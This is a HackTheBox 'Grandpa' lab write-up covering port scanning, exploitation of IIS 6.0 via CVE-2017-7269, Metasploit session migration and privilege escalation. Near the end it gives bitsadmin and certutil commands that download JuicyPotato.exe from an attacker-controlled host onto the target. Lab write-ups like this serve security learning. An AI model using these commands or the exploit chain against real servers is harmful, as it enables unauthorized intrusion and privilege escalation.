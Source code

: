 ```yaml
---
tags:
  - iis
---
```

***Overview**: Grandpa is an Easy rated HTB machine that exploits a vulnerable IIS version to gain compromised access.*
# HTB: Grandpa

## Scanning and Reconnaissance
- so we start by scanning for open ports and services and we identify that an IIS server is running on port 80

```shell
┌──(kali㉿kali)-[~/HTB/Grandpa]
└─$ sudo masscan -p1-65535 10.10.10.14 --rate=1000 -e tun0 > ports
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2023-11-16 23:18:25 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
                                                                                                                                                                       
┌──(kali㉿kali)-[~/HTB/Grandpa]
└─$ cat ports
Discovered open port 80/tcp on 10.10.10.14                                     
                                                                                                                                                                       
┌──(kali㉿kali)-[~/HTB/Grandpa]
└─$ nmap -sV -sC -p80 10.10.10.14 -v -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-16 18:22 EST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 18:22
Completed NSE at 18:22, 0.00s elapsed
Initiating NSE at 18:22
Completed NSE at 18:22, 0.00s elapsed
Initiating NSE at 18:22
Completed NSE at 18:22, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 18:22
Completed Parallel DNS resolution of 1 host. at 18:22, 0.08s elapsed
Initiating Connect Scan at 18:22
Scanning 10.10.10.14 [1 port]
Discovered open port 80/tcp on 10.10.10.14
Completed Connect Scan at 18:22, 0.20s elapsed (1 total ports)
Initiating Service scan at 18:22
Scanning 1 service on 10.10.10.14
Completed Service scan at 18:22, 6.41s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.10.14.
Initiating NSE at 18:22
Completed NSE at 18:22, 9.04s elapsed
Initiating NSE at 18:22
Completed NSE at 18:22, 2.83s elapsed
Initiating NSE at 18:22
Completed NSE at 18:22, 0.00s elapsed
Nmap scan report for 10.10.10.14
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Date: Thu, 16 Nov 2023 23:22:17 GMT
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

### Port 80
- Navigating to the web page, we are presented with the below, we can inspect it too but there's nothing

![](assets/Grandpa_assets/Pasted%20image%2020231117001745.png)

- In wappalyzer, we can confirm that its a windows server and it is IIS 6.0 as we saw

![](assets/Grandpa_assets/Pasted%20image%2020231117002130.png)

## Explotation and Foothold
- so searching for exploits for IIS 6.0, we come across one at [https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)
- so utilizing it we get compromised access

![](assets/Grandpa_assets/Pasted%20image%2020231117010609.png)

- we can check for who we are and also our privileges (we can see SeImpersonate meaning a possibility of a Potato attack)

![](assets/Grandpa_assets/Pasted%20image%2020231117010510.png)

- we can also utilize metasploit for this and also gain compromised access, but we cannot run commands, meaning we have to migrate our process

![](assets/Grandpa_assets/Pasted%20image%2020231117085206.png)

- so we run `ps` to see the processes we have

![](assets/Grandpa_assets/Pasted%20image%2020231117085224.png)

- we can then migrate to the process and we see that we can run the getuid command now

![](assets/Grandpa_assets/Pasted%20image%2020231117085243.png)

- we can view the user flag

![](assets/Grandpa_assets/Pasted%20image%2020231117085818.png)
## Privilege Escalation
- we can use the exploit suggester in metasploit to check for possible privilege escalation vectors. we can set our session and then run the exploit suggester

![](assets/Grandpa_assets/Pasted%20image%2020231117085718.png)

- so we can select any one of the exploit to escalate privileges, we select the first one one and select our session. so now we have access ad Administrator and can view the root file

![](assets/Grandpa_assets/Pasted%20image%2020231117085902.png)


```
bitsadmin /transfer transfName /priority high http://10.10.14.6/JuicyPotato.exe JuicyPotato.exe

certutil.exe -urlcache -split -f http://10.10.14.6/JuicyPotato.exe
```

use nikto
was using this guide to set up ftp server for [https://www.linode.com/docs/guides/vsftpd-on-ubuntu-2004-installation-and-configuration/](https://www.linode.com/docs/guides/vsftpd-on-ubuntu-2004-installation-and-configuration/) for transfer but it didn't work

using davtest

![](assets/Grandpa_assets/Pasted%20image%2020231117091217.png)
